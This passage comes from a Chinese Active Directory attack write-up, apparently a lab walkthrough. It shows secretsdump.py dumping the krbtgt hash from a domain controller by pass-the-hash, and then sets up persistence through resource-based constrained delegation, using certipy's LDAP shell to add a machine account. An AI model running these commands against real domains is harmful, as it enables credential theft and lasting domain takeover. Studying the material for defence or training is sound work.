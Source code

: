 [![](assets/1708508972-508cf7e5de9589dc1f890d28d1d17af0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240220170949-ccbb245a-cfcf-1.png)

secrectdump

```plain
secretsdump.py penson.org/ad\$@192.168.142.20 -just-dc-user PENSON/krbtgt -hashes aad3b435b51404eeaad3b435b51404ee:c0032e2567e4f12b7f8ba3e436db4177
```

[![](assets/1708508972-182183da5b6e1f1036fce192b1a59f6b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240220170959-d2e78d96-cfcf-1.png)

# 权限维持

## RBCD（基于资源约束委派）

可以用 bloodyAD，也可以用新版的 certipy 直接添加 rbcd 进行权限维持  
进入 ldap-shell

```plain
certipy auth -pfx administrator.pfx -dc-ip 192.168.142.20 -ldap-shell
```

```plain
add_computer penson$ penson123 #添加机器账户
set_rbcd AD$ penson$ #添加到 AD 的基于资源约束委派
```

[![](assets/1708508972-df149a1c837c3962b4ea7b0345dea5ff.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240220171030-e524ac6e-cfcf-1.png)
